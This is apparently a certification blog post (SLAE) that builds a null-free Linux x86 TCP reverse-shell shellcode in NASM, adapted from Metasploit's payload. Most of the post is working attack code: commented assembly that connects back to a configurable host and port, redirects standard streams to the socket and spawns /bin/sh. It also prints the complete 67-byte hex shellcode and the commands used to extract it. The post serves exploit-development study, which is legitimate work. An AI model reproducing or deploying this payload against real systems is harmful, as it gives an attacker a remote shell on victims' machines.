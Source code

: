 # 2. TCP Reverse Shell

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP reverse shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening host and port.

## Solution

The solution is based on the [linux/x86/shell_reverse_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_reverse_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening host and port are defined at the top of the NASM source (the IP address 127.1.1.1 is an alternative to 127.0.0.1 without null bytes):

```nasm
global _start

ip equ 0x101017f            ; ip = 127.1.1.1 (big endian)
port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

A connection is established on the socket to the listening host using the [connect](https://man7.org/linux/man-pages/man2/connect.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = [IP] }
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x3
    ;   connect(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push ip                 ; push s_addr = IP
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    inc ebx                 ; socketcall = 3
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(s, 0..2)
    mov ecx, ebx            ; newfd = 3
    pop ebx                 ; oldfd = s
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 0 from successful connect return first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    push edx                ; push null byte
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_reverse.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_reverse.nasm)

## Results

The assembled shellcode is 67 bytes and contains no null bytes. The MSF version is 68 bytes and contains a null byte.

```sh
$ shellcode=$(for i in $(objdump -d shell_reverse | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x53\x6a\x10\x51\x50\x43\x89\xe1\x8d\x42\x66\xcd\x80\x89\xd9\x5b\x49\xb0\x3f\xcd\x80\x75\xf9\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
67
```

The shellcode is executed successfully using the C template:

![Reverse shell executed](images/shell_reverse.png)

![Reverse shell established](images/shell_reverse_2.png)
